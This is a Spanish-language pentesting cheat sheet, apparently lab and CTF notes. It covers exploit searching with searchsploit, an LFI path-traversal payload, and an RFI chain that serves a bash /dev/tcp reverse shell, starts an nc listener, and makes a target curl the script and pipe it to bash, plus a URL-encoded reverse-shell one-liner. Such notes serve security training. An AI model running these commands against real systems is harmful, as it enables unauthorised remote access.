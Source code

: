 
## Busqueda del exploits
```shell
#Buscamos exploits
searchsploit pokermax

#Opcion 2:
https://www.exploit-db.com/exploits/6766

#Leyendo contenido del script
searchsploit -x php/webapps/6766.txt
```

  
## Web  
Si estamos con un directory listing
```shell
# Crear una carpeta en el directorio elegido
curl -X MKCOL "http://10.10.7.103/download/test/"
```
  
## Windows  
Navegación con: **Evil-Winrm.rb** 

## Linux  

### Shell sencilla desde RFI - ExploitDB
```shell
# 1. Encontramos un LFI
page=../../../../../../etc/hosts

# 2. Encontramos un RFI 
	# Formulario que permita subir archivos para imagenes, contact...

	# Acceso por FTP, metasploit...
	

# 3. (AT): Creamos una shell basica y abrimos un servidor
echo 'bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1' > shell.sh
python3 -m http.server 80

# 4. (AT): Abrimos un NC 
nc -nvlp 1337

# 5. (WEB): Ejecutamos reverse shell
http://thetoppers.htb/shell.php?cmd=curl%20%3C10.10.15.111%3E:5555/shell.sh|bash

## Web  
Bash utilizada en  shell de una pagina web
```shell
  bash -c "bash -i >%26 /dev/tcp/10.10.10.68/1234 0>%261"
```
  